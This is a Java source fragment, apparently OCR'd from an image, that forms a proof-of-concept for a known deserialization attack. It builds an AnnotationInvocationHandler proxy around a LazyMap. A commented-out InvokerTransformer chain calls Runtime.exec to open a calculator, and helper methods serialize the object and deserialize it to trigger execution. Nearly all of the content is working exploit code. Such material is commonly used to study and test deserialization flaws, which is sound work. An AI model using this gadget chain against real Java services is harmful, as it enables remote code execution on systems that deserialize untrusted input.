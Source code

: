 ```

        String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
        final Constructor<?> constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);
        Proxy evilProxy = (Proxy) Proxy.newProxyInstance(Deserialize.class.getClassLoader(), new Class[]{Map.class}, secondInvocationHandler);

        InvocationHandler invocationHandlerToSerialize = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);

        return invocationHandlerToSerialize;

        /*Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {
                        String.class }, new Object[] {"open -a calculator"})};

        Transformer chain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap<String, Object>();
        innerMap.put("key", "value");
        Map<String, Object> outerMap = TransformedMap.decorate(innerMap, null, chain);
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, outerMap);
        return instance;*/
    }

    public static void deserializeAndDoNothing(byte[] byteArray) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(byteArray));
        ois.readObject();
    }

    public static byte[] serializeToByteArray(Object object) throws IOException {
        ByteArrayOutputStream serializedObjectOutputContainer = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(serializedObjectOutputContainer);
        objectOutputStream.writeObject(object);
        return serializedObjectOutputContainer.toByteArray();
    }

    public static Object deserializeFromByteArray(byte[] serializedObject) throws IOException, ClassNotFoundException {
        ByteArrayInputStream serializedObjectInputContainer = new ByteArrayInputStream(serializedObject);
        ObjectInputStream objectInputStream = new ObjectInputStream(serializedObjectInputContainer);
        InvocationHandler evilInvocationHandler = (InvocationHandler) objectInputStream.readObject();
        return evilInvocationHandler;
    }
}

```